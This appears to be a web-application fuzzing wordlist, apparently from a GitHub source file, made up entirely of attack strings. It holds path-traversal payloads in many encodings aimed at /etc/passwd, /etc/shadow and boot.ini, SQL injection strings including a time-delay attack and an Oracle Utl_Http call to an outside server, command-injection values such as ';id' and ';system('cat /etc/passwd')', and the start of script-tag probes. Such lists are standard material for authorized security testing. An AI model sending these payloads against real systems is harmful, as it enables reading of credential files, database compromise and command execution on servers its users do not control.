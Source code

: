 .\\./.\\./.\\./.\\./.\\./.\\./etc/shadow
/
/%00/
/%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%00
/%2A
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow
/&apos;
/'
/,%ENV,/
/..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../etc/passwd
/..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../etc/shadow
/.../.../.../.../.../
/../../../../../../../../%2A
/../../../../../../../../../../../etc/passwd%00.html
/../../../../../../../../../../../etc/passwd%00.jpg
/../../../../../../../../../../etc/passwd
/../../../../../../../../../../etc/passwd^^
/../../../../../../../../../../etc/shadow
/../../../../../../../../../../etc/shadow^^
/../../../../../../../../bin/id|
/..\../..\../..\../..\../..\../..\../boot.ini
/..\../..\../..\../..\../..\../..\../etc/passwd
/..\../..\../..\../..\../..\../..\../etc/shadow
/./././././././././././etc/passwd
/./././././././././././etc/shadow
//
//*
/etc/passwd
/etc/shadow
/index.html|id|
0
0 or 1=1
00
0xfffffff
1
1 or 1 in (@@version)--
1 or 1=1--
1.0
1; waitfor delay '0:30:0'--
1;SELECT%20*
1||Utl_Http.request('http://<yourservername>') from dual--
2
2147483647
268435455
65536
:response.write 111111
;
; ping 127.0.0.1 ;
;/usr/bin/id\n
;echo 111111
;id
;id;
;id\n
;id|
;ls -la
;system('/usr/bin/id')
;system('cat%20/etc/passwd')
;system('id')
;|/usr/bin/id|
<
<  script > < / script>
<!